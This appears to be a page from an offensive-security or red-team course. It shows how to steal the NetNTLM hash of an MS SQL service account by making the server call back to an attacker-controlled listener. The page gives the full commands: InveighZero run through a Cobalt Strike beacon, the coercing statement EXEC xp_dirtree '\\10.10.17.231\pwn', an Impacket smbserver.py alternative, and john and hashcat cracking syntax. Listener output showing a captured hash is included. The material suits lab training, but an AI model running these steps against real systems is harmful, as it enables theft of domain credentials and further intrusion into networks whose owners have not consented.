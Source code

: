 The **xp_dirtree** procedure can be used to capture the NetNTLM hash of the principal being used to run the MS SQL Service. We can use [InveighZero](https://github.com/Kevin-Robertson/InveighZero) to listen to the incoming requests (this should be run as a local admin).

```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N

[*] Inveigh 0.913 started at 2021-03-10T18:02:36
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 10.10.17.231
[+] Spoofer IP Address = 10.10.17.231
[+] Packet Sniffer = Enabled
[+] DHCPv6 Spoofer = Disabled
[+] DNS Spoofer = Disabled
[+] LLMNR Spoofer = Disabled
[+] LLMNRv6 Spoofer = Disabled
[+] mDNS Spoofer = Disabled
[+] NBNS Spoofer = Disabled
[+] HTTP Capture = Disabled
[+] Proxy Capture = Disabled
[+] WPAD Authentication = NTLM
[+] WPAD NTLM Authentication Ignore List = Firefox
[+] SMB Capture = Enabled
[+] Machine Account Capture = Disabled
[+] File Output = Disabled
[+] Log Output = Enabled
[+] Pcap Output = Disabled
[+] Previous Session Files = Not Found
[*] Press ESC to access console
```

  

Now execute `EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1` on the MS SQL server, where `10.10.17.231` is the IP address of the machine running InveighZero.

```
[+] [2021-05-14T15:33:49] TCP(445) SYN packet from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) negotiation request detected from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLM challenge 3006547FFC8E90D8 sent to 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLMv2 captured for DEV\svc_mssql from 10.10.17.25(SRV-1):50323:
svc_mssql::DEV:[...snip...]
```

Use `--format=netntlmv2 --wordlist=wordlist svc_mssql-netntlmv2` with **john** or `-a 0 -m 5600 svc_mssql-netntlmv2 wordlist` with **hashcat** to crack.

This is useful because the SQL Instance may be being run by a privileged account, sometimes even a Domain Admin. InveighZero will ignore traffic coming from accounts that are generally deemed to be "uncrackable" such as computer accounts.

You may also use the WinDivert + rportfwd combo (shown on the **NTLM Relaying page**) with Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) to capture the NetNTLM hashes.

```
root@kali:~# python3 /usr/local/bin/smbserver.py -smb2support pwn .
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (127.0.0.1,46894)
[-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
[*] AUTHENTICATE_MESSAGE (DEV\svc_mssql,SRV-1)
[*] User SRV-1\svc_mssql authenticated successfully
[*] svc_mssql::DEV:[...snip...]
[*] Connecting Share(1:pwn)
```
